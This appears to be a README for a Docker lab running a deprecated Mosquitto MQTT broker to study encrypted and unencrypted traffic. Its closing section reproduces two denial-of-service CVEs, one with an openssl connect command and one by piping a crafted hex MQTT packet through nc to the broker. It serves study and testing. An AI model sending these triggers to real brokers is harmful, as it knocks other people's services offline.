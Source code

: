 # MQTT-in-Containers
This virtual environment was created to observe and study MQTT communications, running a deprecated version of the [Mosquitto](https://mosquitto.org/) broker (version 2.0.5). There is a version with encrypted and one without encrypted traffic for you to try. We replicated two DoS attacks, namely CVE-2023-5632 and CVE-2021-34432. Further down we have included some steps on how to replicate these.

Here is a quick rundown of how to use the files in this repo:

1. We recommend you use Linux or WSL for Windows environments.
2. You need to [install Docker](https://docs.docker.com/get-started/get-docker/) to run the containers.
3. With "sudo docker compose up" you can start up all containers mentioned in the specific compose file
4. You can then capture the traffic in Wireshark for example, although finding the correct interface is not always easy.
5. The ip adresses for the encrypted setup are static, you can change it in the compose file if needed. 
6. Play around with different settings, creating your own certificates (if you dare), topics etc. 

Note: The password for any certificate file is "test"

CVE-2023-5632 <br>
This CVE works with the encrypted Broker. To trigger the exploit all you need is the following command. The ip adress is static and should work unless you changed it:<br>
openssl s_client -connect 172.23.0.2:8883<br>
It might be beneficial to limit the number of cpu cores of your testing enviroment. For WSL this can be done in the WSL settings.<br>
CVE-2021-34432<br>
This command only works with the unencrypted broker and if allow_anonymous is set to true in the mosquitto.conf file. But could also be replicated for the encrypted broker if you are able to sucessfully authenticate a package with topic length 0.<br>
´´´echo 102b00044d5154540500003c0822000a110000000f00166d7174746f6f6c732d383739363736313532303132393d0900000621000a220005e000 | xxd -p -r | nc localhost 1883´´´

